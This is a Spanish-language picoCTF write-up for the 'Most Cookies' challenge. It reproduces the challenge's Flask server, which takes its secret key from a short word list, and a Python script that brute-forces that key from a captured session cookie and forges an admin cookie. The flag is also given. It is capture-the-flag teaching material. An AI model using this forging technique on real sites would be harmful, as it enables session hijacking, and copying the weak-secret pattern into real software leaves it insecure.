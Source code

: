 # Retos picoCTF

# Level X

## Objetivo
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:44693/
## Solucion
picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}

Para este reto podemos ver en el archivo solve.py selecciona aleatoriamente de una lista de galletas para darnos asignar a nuestra session.

PAra esto hice uso de un programa en python que me encontré en internet para poder decodificar la cookie y que me de otra, por que el programa solve.py muestra que la galleta no es lo que busca, sino que la cookie tenga el valor de admin dentro de ella.
Así que se modifica la cookie, la ingreso en le buscador y refresco la pagina, dando como resultado la bandera.

'''´´´                                                            
┌──(kali㉿kali)-[~/Downloads/MostCookies]
└─$ ls 
index.html  server.py  solve.py
                                                                     
┌──(kali㉿kali)-[~/Downloads/MostCookies]
└─$ cat server.py    
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
        if session.get("very_auth"):
                check = session["very_auth"]
                if check == "blank":
                        return render_template("index.html", title=title)
                else:
                        return make_response(redirect("/display"))
        else:
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

@app.route("/search", methods=["GET", "POST"])
def search():
        if "name" in request.form and request.form["name"] in cookie_names:
                resp = make_response(redirect("/display"))
                session["very_auth"] = request.form["name"]
                return resp
        else:
                message = "That doesn't appear to be a valid cookie."
                category = "danger"
                flash(message, category)
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

@app.route("/reset")
def reset():
        resp = make_response(redirect("/"))
        session.pop("very_auth", None)
        return resp

@app.route("/display", methods=["GET"])
def flag():
        if session.get("very_auth"):
                check = session["very_auth"]
                if check == "admin":
                        resp = make_response(render_template("flag.html", value=flag_value, title=title))
                        return resp
                flash("That is a cookie! Not very special though...", "success")
                return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
        else:
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

if __name__ == "__main__":
        app.run()

                                                                     
┌──(kali㉿kali)-[~/Downloads/MostCookies]
└─$ cat solve.py 
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer
def flask_cookie(secret_key, cookie_str, operation):
    # This function is a simplified version of the SecureCookieSessionInterface: https://github.com/pallets/flask/blob/020331522be03389004e012e008ad7db81ef8116/src/flask/sessions.py#L304.
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    if operation == "decode":
        return s.loads(cookie_str)
    else:
        return s.dumps(cookie_str)

# The list of possible secret keys used by the app.
possible_keys = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

# An encoded cookie pulled from the live application that can be used to guess the secret key.
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJidXR0ZXIifQ.Z04OuQ.FXYQUWsvRO7bovp2KcXy1fgtgw8"

# For each possible key try to decode the cookie.
for possible_secret_key in possible_keys:
    try:
        cookie_decoded = flask_cookie(possible_secret_key, cookie_str, "decode")
    except BadTimeSignature:
        # If the decoding fails then try the next key.
        continue
    secret_key = possible_secret_key
    # Break the loop when we have the corret key.
    break

print("Secret Key: %s" % secret_key)

# The admin cookie has the `very_auth` value set to `admin`, which can be seen on line 46 of the server.py code.
admin_cookie = {"very_auth": "admin"}
# Encode the cookie used the `SecureCookieSessionInterface` logic.
admin_cookie_encoded = flask_cookie(secret_key, admin_cookie, "encode")

print("Admin Cookie: %s" % admin_cookie_encoded)

´´´

## Referencias


